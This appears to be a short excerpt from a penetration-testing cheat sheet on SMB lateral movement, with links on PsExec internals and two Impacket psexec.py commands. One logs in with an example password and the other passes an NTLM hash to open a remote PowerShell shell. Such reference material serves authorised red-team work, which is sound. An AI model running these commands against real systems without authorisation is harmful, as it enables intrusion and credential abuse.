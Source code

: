 # SMB




## PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)



### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```

